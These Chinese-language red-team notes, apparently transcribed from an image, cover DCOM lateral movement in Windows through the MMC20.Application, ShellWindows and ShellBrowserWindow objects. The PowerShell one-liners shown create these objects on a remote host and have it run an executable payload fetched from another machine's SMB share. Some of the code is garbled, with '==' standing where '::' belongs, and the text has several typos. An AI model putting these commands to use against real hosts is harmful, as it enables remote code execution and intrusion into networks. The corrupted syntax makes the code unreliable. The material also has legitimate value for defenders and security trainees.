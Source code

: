 # DCOM利用

**关于COM(组件对象模型)**

* 微软一套软件组件的二进制接口标准，使得跨编程语言的进程间通信
* COM是多项微软技术与框架的基础，如OLE、OLE自动化、ActiveX、COM+、Windows shell、DCOM、DirectX
* COM由一组构造规范和组件对象库组成
* 在Win中COM对象都由唯一的128位二进制标识符标识，即GUID
* 当GUID用于标识COM对象时，被称为GLSID(类标识符)
* 当GUID用于标识接口时，被称为IID(接口标识符)
* 一些GLSID还具有ProgID

**关于DCOM(分布式组件对象模型)**

* 基于COM，为COM的扩展
* 允许程序实例化和访问另一台计算机上的COM对象属性和方法
* DCOM使用远程过程调用RPC技术将COM功能扩展到本地计算机之外
* 远程服务器托管COM服务器端的软件(DLL/EXE)可以通过RPC向客户端公开

**DCOM的横向移动**

* 部分DCOM组件公开的接口中可能包含不安全的方法
* 常利用的DCOM组有：MMC20.Application、ShellWindows、EXcel.Application、ShellBrowserWindow等

ps下列出计算机所有的DCOM组件

```
Get-CimInstance Win32_DCOMApplication
```

**MMC20.Application**

* MMC20.Application对象的Document.ActiveView存在一个ExecuteShellCommand方法，可以用于启动子进程并运行执行的程序或系统命令 通过ProgID与DCOM进行远程交互，并创建MMC20.Application对象实例

```
$COM = [activator]==CreateInstance([type]==GetTypeFromProgID("MMC20.Application","192.168.0.106"))
```

调用ExecuteShellCommand方法启动进程，运行攻击载荷(调用过程中MMC20.Application会在远程主机上启动mmc.exe进程，通过ExecuteShellCommand方法在mmc.exe中创建子进程)

```
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c \\192.168.0.108\lbwnb\0.108.9876.exe","Minimized")
```

**ShellWindows**

* ShellWindows组件提供了Document.Application.ShellExecute方法，可以用于启动子进程来运行指定的程序或系统命令，适用于Window7以上版本的系统
* 由于ShellWindows对象没有ProgID,所以需要手动去OleViewDotNet工具上去找到ShellWindows对象的CLSID
* OleViewDotNet:https://github.com/tyranid/oleviewdotnet/releases/tag/v1.11
* ShellWindows CLSID: 9ba05972-f6a8-11cf-a442-00a0c90a8f39 - ShellWindows 管理员权限PS通过CLSID与DCOM进行远程交互，并创建ShellWindows对象实例

```
$COM = [activator]==CreateInstance([type]==GetTypeFromCLSID("9ba05972-f6a8-11cf-a442-00a0c90a8f39","192.168.0.106"))
```

ShellWindowx并不会创建新进程，而是在有explorer.exe进程中创建并执行子进程

```
$com.item().Document.Application.ShellExecute('cmd.exe',"/c \\192.168.0.108\lbwnb\0.108.9876.exe","C:\Windows\System32",$null,0)
```

**ShellBrowserWindow**

* ShellBrowserWindow中也存在一个Document.Application.ShellExecute方法，与ShellWindows一样，但不会创建新进程，而是通过已有的explorer.exe托管子进程，该方法只适用于Windos10和Windows Server2012等版本的系统
* c08afd90-f2a1-11d1-8455-00a0c91f3880 - ShellBrowserWindow

```
管理员权限PS通过CLSID与DCOM进行远程交互，并创建ShellBrowserWindows对象实例
$COM = [activator]==CreateInstance([type]==GetTypeFromCLSID("c08afd90-f2a1-11d1-8455-00a0c91f3880","192.168.0.104"))
```

调用ShellExecute方法启动子进程

```
$com.Document.Application.ShellExecute('cmd.exe',"/c \\192.168.0.108\lbwnb\0.108.9876.exe","C:\Windows\System32",$null,0)
```
